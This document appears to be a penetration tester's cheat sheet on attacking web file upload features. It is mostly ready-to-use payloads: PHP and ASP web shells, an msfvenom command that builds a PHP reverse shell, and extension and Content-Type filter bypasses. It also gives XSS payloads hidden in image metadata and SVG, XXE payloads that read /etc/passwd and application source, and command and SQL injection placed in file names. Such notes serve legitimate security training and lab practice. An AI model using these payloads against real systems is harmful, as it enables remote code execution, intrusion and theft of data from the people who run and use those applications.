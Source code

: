 # File Upload Attacks

**Tips:** 
- Find what language runs the web app by fuzzing the extention of the index page for common file types (/index.FUZZ).
- "Open image in new tab" to see upload location (maybe encoded in the URL).

[Wappalyzer](https://www.wappalyzer.com/) can also be used to detect what languages and othertechnologies are used.

## Web Shells

| Web Shell | Description |
|-----------|-------------|
| `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |  
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| Command | Description |
|---------|-------------|
| **Client-Side Bypass (firefox shortcuts)** | |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector and amend front end code (also inspect displayed files after upload to find location) or use burp to alter request |
| `[CTRL+SHIFT+K]` | Load browser console to review JS functions by typing their name in |
| **Blacklist Bypass (Can terst in burp intruder tab(may need to diable URL encoding))** | |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass (try fuzzing with web exstentions wordlist first to see what are accepted)** | |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension (works when missconfigured webserver will execute because contains php and whitelist allows jpg (may need fuzzing php ext also (php7.jpg etc))) |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass (Content-Type header check), fuzz contrent type in burp** | |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/[Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) (first bytes of a file indicate its MIME-type) |

**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as POST data), in which case we will need to modify the main Content-Type header.

### Creating Character Injection Wordlist

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do # can add more php ext here
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Limiting Content-Type wordlist example

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt # method 1
cat web-all-content-types.txt | grep 'image/' | xclip -se c # method 2
```

## Limited Uploads

- Secure filters not exploitable with above techniques
- Fuzz file extensions to try below techniques

| Potential Attack | File Types |
|------------------|------------|
| XSS | HTML, JS, SVG, GIF |
| XXE/SSRF | XML, SVG, PDF, PPT, DOC |
| DoS | ZIP, JPG, PNG |


### XSS 

- Adding XSS payload to an image's metadata:

```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
```

- Change the image's MIME-Type to text/html, web apps may show it as an HTML document instead of an image, thus the XSS payload would be triggered.
- Scalable Vector Graphics (SVG) images are XML-based. For this reason, we can modify their XML data to include an XSS payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

- SVG/XML example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- Another example but to read the web apps source code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

- View page source of the upload page to see the returned file from above payload.
- PDF, Word Documents, PowerPoint Documents all include XML elements.

## Other Upload Attacks

| Attack Type | Description |
|-------------|-------------|
| Injections in File Name | When file name is displayed on page (reflected) e.g. `file$(whoami).jpg`, ``file`whoami`.jpg``, `file.jpg\|\|whoami`, `<script>alert(window.origin);</script>.jpeg`,    `file';select+sleep(5);--.jpg` |
| Upload Directory Disclosure | When no access to the link or uploaded file, use other methods to find the uploads directory i.e. fuzzing, LFI, XXE, forcing error messages (upload file with a name that already exists/extremely long name) |
| Windows-specific Attacks | Using reserved characters (|, <, >, *, or ?) or reserved names (CON, COM1, LPT1, or NUL) may cause an error to display the upload directory. Use Windows [8.3 Filename Convention](https://en.wikipedia.org/wiki/8.3_filename) to overwrite existing files e.g. WEB~1.CON to overwrite the web.conf file |